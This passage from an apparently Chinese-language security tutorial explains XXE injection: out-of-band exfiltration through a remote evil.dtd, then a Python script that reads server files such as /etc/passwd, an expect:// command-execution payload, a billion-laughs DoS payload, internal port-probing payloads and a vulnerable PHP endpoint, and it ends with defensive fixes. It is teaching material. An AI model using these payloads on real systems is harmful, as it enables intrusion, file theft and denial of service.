[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151838-f5f6d848-14d3-1.jpg)  
ubantu查看apache日志记录命令：

```plain
tail -f /var/log/apache2/access.log
```

本地抓包也可以看到Base64编码后的文件内容  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202151949-20888bc4-14d4-1.jpg)  
*无回显攻击流程：*

-   先调用`%dtd`，请求远程服务器(攻击服务器)上的`evil.dtd`。
-   再调用 `evil.dtd`中的 `%file`。`%file` 获取受攻击的服务器上面的敏感文件，然后将 `%file` 的返回结果传到`%send` 。
-   然后调用 `%send;` 把读取到的数据发送到远程服务器上。

这样就实现了外带数据的效果，解决 XXE 无回显的问题。

**使用并分析恶意脚本**  
xxe2.php

```plain
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);
echo $xml->name;
?>
```

读取文件.py

```plain
#!/usr/bin/python
# -*- coding:utf-8 -*-
import urllib2

if __name__ == '__main__':

    print u'输入要访问的地址，如http://127.0.0.1/xml/xxe2.php'
    url = raw_input()
    count=1
    while count==1:
        print u'输入要读取的文件，如file:///etc/passwd'
        payload = raw_input()
        headers = {'Content-type': 'text/xml'}
        xml = '<?xml version="1.0" encoding="utf-8"?><!DOCTYPE xxe [<!ELEMENT name ANY ><!ENTITY xxe SYSTEM "' + payload + '" >]><root><name>&xxe;</name></root>'
        req = urllib2.Request(url = url,headers = headers, data = xml)
        res_data = urllib2.urlopen(req)
        res = res_data.read()
        print res
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191202152024-3548448c-14d4-1.png)  
通过urllib2的request方法用POST方式向目标地址发送XML数据，返回的数据即为服务器相关文件内容。

##### 2、执行系统命令

在安装expect扩展的PHP环境里执行系统命令，其他协议也有可能可以执行系统命令。

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<root>
<name>&xxe;</name>
</root>
```

通过XXE可以实现RCE的实例很少。

##### 3、拒绝服务攻击(Dos)

```plain
<?xml version="1.0"?>
   <!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

**原理**：递归引用,lol 实体具体还有 “lol” 字符串，然后一个 lol2 实体引用了 10 次 lol 实体，一个 lol3 实体引用了 10 次 lol2 实体，此时一个 lol3 实体就含有 10^2 个 “lol” 了，以此类推，lol9 实体含有 10^8 个 “lol” 字符串,最后再引用lol9。

##### 4、探测内网端口与攻击内网网站

**探测内网端口**

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80" >]>
<root>
<name>&xxe;</name>
</root>
```

3306端口开放  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202152107-4ea0fe60-14d4-1.jpg)  
3389端口未开放  
[](https://xzfile.aliyuncs.com/media/upload/picture/20191202152125-5979dc4e-14d4-1.jpg)

**攻击内网网站**

```plain
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80/payload" >]>
<root>
<name>&xxe;</name>
</root>
```

### 0x06 XXE漏洞防御

**1、使用开发语言提供的禁用外部实体的方法**  
php:

```plain
libxml_disable_entity_loader(true);
```

java:

```plain
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
```

Python:

```plain
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

**2、过滤用户提交的XML数据**  
过滤关键字：`<\!DOCTYPE`和`<\!ENTITY`，或者`SYSTEM`和`PUBLIC`。  
**3、不允许XML中含有自己定义的DTD**

### 0x07 后记

总算把常见XML漏洞学完了，这里重点学习了XXE漏洞(XML外部实体注入)。整体来说，收获很大。

参考博客：  
[XML实体注入漏洞](https://www.cnblogs.com/xiaozi/p/5785165.html)  
[漏洞利用: XML外部实体（XXE）注入](https://bbs.ichunqiu.com/thread-44650-1-7.html)
